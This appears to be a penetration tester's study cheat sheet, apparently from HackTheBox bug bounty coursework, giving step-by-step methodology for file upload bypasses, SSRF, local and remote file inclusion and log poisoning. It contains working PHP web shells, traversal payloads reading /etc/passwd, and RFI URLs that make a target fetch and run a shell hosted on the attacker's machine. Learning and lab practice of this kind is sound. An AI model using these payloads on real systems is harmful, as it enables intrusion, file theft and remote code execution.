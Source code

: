 # File Upload Attacks
## Client-Side Validation
If file is validated on client side:
1. Upload a validated file type
2. Capture upload request in Burp
3. Modify `filename` and the file content to your web shell



## Back-End Validation
If file is validated after submission:
1. Capture file upload request and change data to your desired web shell
2. Send captured request to Repeater and test the `filename` extension, `Content-Type` value, and `MIME-Type` individually to see which area the back-end is validating from. 
	- Test each one individually, and all possible combinations of each (ex: allowed `filename` with disallowed `Content-Type` and `MIME-Type` to find exactly what is being tested on the back-end)
3. If one area is validated, but others aren't validated on back-end (`Content-Type`, `filename`, `MIME-Type`), then set all these other values to your desired value and continue testing
	- If `filename` is validated: [[Bypassing Filters#Fuzzing Extensions]]
	- If `Content-Type` is validated: [[Bypassing Filters#Type Filters]]
	- If `MIME-Type` is validated: [[Bypassing Filters#MIME-Type]]

>**MAKE SURE YOU UN-CHECK URL ENCODING WHEN USING INTRUDER!!!!!!!!**



### If `HTML` file uploads are allowed: [[Miscellaneous Upload Attacks#XSS]]
### If `.svg` uploads are allowed: [[Miscellaneous Upload Attacks#XXE]]
### If none of above is working:
Try combining multiple methods. Example:
1. If file needs to end in `.jpg`, name it `.php.jpg`
2. Check if you can change the `Content-Type` now. If not, fuzz the `Content-Type`: [[Bypassing Filters#Fuzzing Content-Type]]



# SSRF Testing (from URL schemes)
If the web application relies on a user-supplied URL scheme or protocol (ex: `http://`, `file://`), such as:
- URL that retrieves data based off user-input
- A button to retrieve data such as; Stock for items, availability for appointments, etc.
## Test for SSRF
1. Send a URL to a listener on our attacking system to confirm vulnerability:
```url
http://10.10.14.17:80/test
```
	- Make sure to have a python listener open on this port when sending this!




## Exploitation
1. Check to see if it scans itself with `http://127.0.0.1:81`
	- If it responds with error saying it couldn't connect, we can scan for all ports with `ffuf`[[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Enumerating the System]]
2. If we find other services open (ex: `port 25 - SMTP`), we can go through [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#The gopher Protocol]]
3. Attempt LFI by using `file:////////etc/passwd` to read files
4. If we found that the server fetches information from unauthorized resources on other pages, we can send requests to grab these unauthorized resources
	- Ex: Loading the `/index.php` page sends a GET request to `/assets/js/userdata.js`, which is unauthorized when we attempt to view it
	- We can send a request with our SSRF vulnerability to view the page
	- If we want to FUZZ a URL we dont have access to: [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Accessing Restricted Endpoints]]




## Blind Exploitation: [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Blind SSRF|Reference]]



# Local File Inclusions
## Identifying Vulnerability
If a file or resource is retrieved through a URL with a `?file=filename` parameter:
1. Try accessing files by appending `?file=filename/../../../../etc/passwd`
2. If this doesn't work, try: `?file=/../../../../etc/passwd`
3. If this doesn't work, try: `?file=filename/....//....//....//....//etc/passwd`
4. If this doesn't work, try: `?file=filename/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd`
5. If these don't work, try: `?file=./filename/` + all previous payloads, one-by-one



### If our original request retrieves a file
Ex: `?profile-avatar=/profile/$username/avatar.png`
1. Change the name of the file it is requesting to a malicious LFI username to grab other files 
	- Ex: Change profile avatar from `avatar.png` -> `../../../../etc/passwd`
	- When web app requests profile avatar, it will now be: `?profile-avatar=/profile/$username/../../../../etc/passwd`



### If PHP version is < 5.3: [[Basic Bypasses#Appended Extension]]


### Else: [[PHP Filters]]




## RCE through LFI
### Check for RCE through PHP Configurations: [[1. PHP Wrappers#Data]]
Go through [[1. PHP Wrappers#Checking PHP Configurations]] first.
- If enabled, continue with the rest of the entire `Data` Section
- If disabled, skip this section and `Input` section and go to `Expect` section


### If `Data` section doesn't work: [[1. PHP Wrappers#Input]]


### If neither `Data` or `Input` work: [[1. PHP Wrappers#Expect]]





## RFI (Remote File Inclusion)
### Determine if vulnerable
1. Include a URL and see if we can get its content. If we can, it is vulnerable
	- Ex: `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

### Exploit
1. Create a web reverse shell:
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2. Host the script with python server:
```shell
sudo python3 -m http.server <LISTENING_PORT>
```
3. Include our local shell through RFI, and specify a command to be executed alongside it:
```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```


#### If HTTP ports are blocked or `http://` is blocked: [[2. Remote File Inclusion (RFI)#FTP]]

#### If vulnerable app is on a Windows server: [[2. Remote File Inclusion (RFI)#SMB]]


## Upload Malicious Files through LFI
1. Identify an endpoint where you can upload files to the server
2. If you can find an upload file section on the server, continue with exploitation
### Exploitation
1. Create a web shell file with the allowed `MIME-Type` and extension and upload it to the web app:
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
2. Find the file path where this is uploaded (ex: right-click it -> Inspect -> find where it is retrieved in the HTML)
3. Include the uploaded file in the LFI vulnerability and the code should get executed:
```html
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
4. If execution doesn't work, go through:
	- [[3. LFI and File Uploads#Zip Upload]] 
	- [[3. LFI and File Uploads#Phar Upload]] 




## If everything fails, go through: [[4. Log Poisoning]]